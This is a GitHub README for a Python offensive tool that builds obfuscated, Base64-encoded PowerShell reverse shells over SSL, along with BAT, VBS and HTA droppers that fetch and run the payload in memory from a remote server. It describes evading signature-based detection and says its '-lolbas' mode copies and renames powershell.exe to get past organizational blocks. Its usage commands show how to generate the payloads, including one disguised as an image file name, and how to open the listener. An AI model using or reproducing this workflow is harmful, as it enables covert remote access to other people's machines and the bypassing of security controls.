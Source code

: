 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **HTA File Generation:** Create a HTA file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
python3 -m venv Reverser
cd Reverse
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
pip install -r requirement.txt
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.
- A HTA file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT, HTA and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/a52d08f3-e61f-4a41-be2c-43bbb29ce7d9)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/4fc96af2-76e4-4143-a598-a112b934526e)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/8213c8fc-da3b-4588-90b8-7382d599caca)



-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting an encrypted Reverse Shell after downloading the PS1 file to the memory via encrypted connection:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)


# Update for the Tool from 01/09/2024:
Update to the tool: I added the -lolbas flag. In this mode, the use of this flag will only apply when creating a VBS file. In scenarios where the use of powershell.exe is blocked within organizations, the script will create a VBS file that copies powershell.exe from its original path:

'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'

to a new location where the user executing the payload has write permissions, and it will generate a new name for the powershell.exe file (each time, a different name will be generated).

This way, the download of the ReverseShell payload in PS1 format will run from the newly created powershell.exe file:

Creating the VBS file with using the lolbas:
![image](https://github.com/user-attachments/assets/ecff3611-e901-4f8b-be9e-bdcc4cded767)

The VBS file:
![image](https://github.com/user-attachments/assets/81a0bf66-265d-4288-a6df-5369637e2fad)

# Enjoy :)

